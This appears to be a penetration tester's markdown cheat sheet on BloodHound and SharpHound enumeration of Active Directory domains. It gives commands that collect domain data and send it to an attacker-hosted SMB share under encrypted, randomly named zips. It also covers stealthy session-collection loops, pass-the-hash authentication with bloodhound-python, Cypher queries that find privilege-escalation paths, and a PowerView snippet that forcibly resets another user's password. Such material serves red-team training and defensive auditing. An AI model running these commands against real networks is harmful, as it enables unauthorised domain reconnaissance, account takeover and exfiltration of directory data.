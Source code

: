 # BloodHound

#### Data collection

```shell
# Get all
SharpHound.exe -All

# DC Only
SharpHound.exe -DCOnly

# Computer only
SharpHound.exe -ComputerOnly

# Save to smbshare
sudo impacket-smbserver share ./ -smb2support -user zen -password zen
SharpHound.exe --memcache --outputdirectory \\10.10.11.10\share\ --zippassword ZenSharp --outputprefix ZEN --randomfilenames

# LDAP auth
SharpHound.exe -All --ldappassword zenpass --ldapusername zen
```

#### Other usefull flags

| Flag                | Description               |
| ------------------- | ------------------------- |
| `--randomfilenames` | Random files names output |
| `--outputdirectory` | Output directory          |
| `--zipfilename`     | Filename for zip          |
| `--zippassword`     | Password zip              |

#### Session loops

To see where users are connected we can use loops so SharpHound can find active sessions of users.

| Flag             | Description                     |
| ---------------- | ------------------------------- |
| `--loop`         | Loop computer collection        |
| `--loopduration` | Loop duration                   |
| `--loopinterval` | Sleep interval                  |
| `--stealth`      | Only check systems to have data |

```powershell
SharpHound.exe -c Session --loop --loopduration 02:00:00 --loopinterval 00:01:00
```

#### Data collection from Linux

```bash
# Using hash
bloodhound-python -u 'admin' -p zen123 -d zencorp.local -ns 172.16.1.5 -c All

# Using hash
bloodhound-python -u 'admin' --hashes b18733e57ca3786565914d7136e0e79a -d zen.local -ns 172.16.1.5 -c All

# Using kerberos authentication
bloodhound-python -d zencorp.local -c DCOnly -u zen -p zen123 -ns 10.129.204.111 -k 
```

#### Queries

```shell
# Search user
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"}) RETURN u
MATCH (u:User) WHERE u.name = "JOE@ZENCORP.LOCAL" RETURN u

# Get Group memberships
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(joeGroups) 
RETURN joeGroups

# MemberOf Relationship
MATCH p=((n:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(g:Group)) 
RETURN p

# MemberOf Relationship depth 1..* (1 -any)
MATCH p=((u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf*1..]->(g:Group)) 
RETURN p

# Find path group name Help Desk
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name CONTAINS 'HELPDESK'
RETURN p

# Find path group name Help Desk using =~
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name =~ '(?i)helpdesk.*'
RETURN p

# ShortestPath from node that contains john to any node
MATCH p = shortestPath((n)-[*1..]->(c)) 
WHERE n.name =~ '(?i)john.*' AND NOT c=n 
RETURN p

# Find rights domain user should not have
MATCH p=(g:Group)-[r:Owns|WriteDacl|GenericAll|WriteOwner|ExecuteDCOM|GenericWrite|AllowedToDelegate|ForceChangePassword]->(c:Computer) 
WHERE g.name STARTS WITH "DOMAIN USERS" 
RETURN p

# Find all users with desriptions
MATCH (u:User) 
WHERE u.description IS NOT NULL 
RETURN u.name,u.description

# Find WriteSPN
MATCH p=((n)-[r:WriteSPN]->(m)) RETURN p
```

#### Cheatsheets

[https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12](https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12)[https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

#### ForceChangePassword

```powershell
# Use powerview
Import-Module .\PowerView.ps1

# Save password
$SecPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force

# Create PSCredential object
$Cred = New-Object System.Management.Automation.PSCredential('ZENCORP\john', $SecPassword)

# Change password
Set-DomainUserPassword -Identity steven -AccountPassword $UserPassword -Credential $Cred -Verbose
```

